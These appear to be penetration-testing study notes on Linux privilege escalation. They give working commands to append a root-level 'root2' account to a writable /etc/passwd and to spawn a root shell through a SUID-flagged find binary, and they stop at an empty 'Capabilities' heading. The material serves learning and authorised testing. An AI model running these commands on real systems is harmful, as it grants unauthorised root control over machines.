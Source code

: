 >[!info]- Info - /etc/shadow vs /etc/passwd
>Linux passwords are usually stored in **/etc/shadow** (ie, unless an Active Directory or LDAP is used).
>
>For backwards compatibility, however, passwords hashes can be present in the **/etc/passwd** file. If so, the hash takes precedence over the respective entry in **/etc/shadow**.

>[!exploit]- Exploit - Write access for **/etc/passwd** means we can set an arbitrary password for any account.

>[!code]- Create and login as a new user with root privileges
>Generate a suitable hash:
>```bash
>joe@debian-privesc:~$ openssl passwd w00t
>```
>_The output of the OpenSSL passwd command varies depending on the system executing it. On older system is may default to the DES algorithm, while on newer systems it could output in MD5 format._
>
>---
>
>Add the new user to _/etc/passwd_:
>```bash
>joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
>```
>_The UID and GID values are 0, specifying that the account is a superuser_.
>
>---
>
>Switch to the new user:
>```bash
>joe@debian-privesc:~$ su root2
>Password: w00t
>```
#### SUID binaries

>[!info]- Info - What is a SUID flag?
>The SUID flag allows a process or script to run as the owner, rather than the user initiating it. The SUID flag is denoted with an _s_ flag in the file permissions.

>[!exploit]- Exploit - SUID enabled files could allow us to execute code as a privileged user
>If we find a file that is misconfigured and has the SUID flag, we can exploit it to run a command with elevated privileges.

>[!code]- Find a vulnerable SUID enabled file
>```bash
>joe@debian-privesc:~$ find / -perm -u=s -type f 2>/dev/null
>```

>[!success] The _find_ program is vulnerable

>[!code]- Find an exploit for the vulnerable file
>[GTFO Bins can help](https://gtfobins.github.io/). The _-exec_ parameter can be exploited to run a bash shell along with the _-p_ parameter.
>```bash
>joe@debian-privesc:~$ find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
>```
#### Capabilities
